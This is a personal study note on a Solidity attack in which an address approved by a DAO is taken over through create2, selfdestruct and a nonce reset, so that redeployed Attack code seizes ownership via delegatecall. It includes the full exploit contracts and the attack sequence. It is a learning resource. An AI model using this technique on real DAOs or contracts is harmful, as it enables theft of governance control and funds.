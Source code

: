 #loss-of-access 

https://solidity-by-example.org/hacks/deploy-different-contracts-same-address/
https://www.youtube.com/watch?v=whjRc4H-rAc
[[Create and Create2]]
[[Self Destruct]]

This one is little complicated:
First attacker needs to deploy  `DeployerDeployer` and let it deploy `Deployer` using `create2`  (let's say at `0xFFF` )
`Deployer` then deploys a `Proposal` (at `0xABC`) using `create`
Get the DAO to approve the `Proposal`
Then attacker deletes the `Proposal` with `emergencyStop()`(which is in `0xABC`, also deletes `Deployer` (which is at `0xFFF`)
Then attacker can redeploy the `Deployer` using `DeployerDeployer` using create2 (at `0xFFF`)
Attacker now calls `Deployer.deployAttack()` to deploy `Attack` at the address of `0xABC` 
Reminded that `Deployer.deployAttack()` using `create`, how can it deploy the `Attack` under the same address?
It's because `address = last 20 bytes of sha3(rlp_encode(sender, nonce))`
If we can somehow reset the nonce, the address will be the same
Now the attacker can call the malicious code to gain owner access to the DAO

Normal situation:
![[Pasted image 20240714170133.png]]

Attack situation:
![[Pasted image 20240714170255.png]]

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

/*
Called by Alice
0. Deploy DAO

Called by Attacker
1. Deploy DeployerDeployer
2. Call DeployerDeployer.deploy()
3. Call Deployer.deployProposal()

Called by Alice
4. Get DAO approval of Proposal

Called by Attacker
5. Delete Proposal and Deployer
6. Re-deploy Deployer
7. Call Deployer.deployAttack()
8. Call DAO.execute
9. Check DAO.owner is attacker's address

DAO -- approved --> Proposal
DeployerDeployer -- create2 --> Deployer -- create --> Proposal
DeployerDeployer -- create2 --> Deployer -- create --> Attack
*/

contract DAO {
    struct Proposal {
        address target;
        bool approved;
        bool executed;
    }

    address public owner = msg.sender;
    Proposal[] public proposals;

    function approve(address target) external {
        require(msg.sender == owner, "not authorized");

        proposals.push(
            Proposal({target: target, approved: true, executed: false})
        );
    }

    function execute(uint256 proposalId) external payable {
        Proposal storage proposal = proposals[proposalId];
        require(proposal.approved, "not approved");
        require(!proposal.executed, "executed");

        proposal.executed = true;

        (bool ok,) = proposal.target.delegatecall(
            abi.encodeWithSignature("executeProposal()")
        );
        require(ok, "delegatecall failed");
    }
}

contract Proposal {
    event Log(string message);

    function executeProposal() external {
        emit Log("Excuted code approved by DAO");
    }

    function emergencyStop() external {
        selfdestruct(payable(address(0)));
    }
}

contract Attack {
    event Log(string message);

    address public owner;

    function executeProposal() external {
        emit Log("Excuted code not approved by DAO :)");
        // For example - set DAO's owner to attacker
        owner = msg.sender;
    }
}

contract DeployerDeployer {
    event Log(address addr);

    function deploy() external {
        bytes32 salt = keccak256(abi.encode(uint256(123)));
        address addr = address(new Deployer{salt: salt}());
        emit Log(addr);
    }
}

contract Deployer {
    event Log(address addr);

    function deployProposal() external {
        address addr = address(new Proposal());
        emit Log(addr);
    }

    function deployAttack() external {
        address addr = address(new Attack());
        emit Log(addr);
    }

    function kill() external {
        selfdestruct(payable(address(0)));
    }
}

```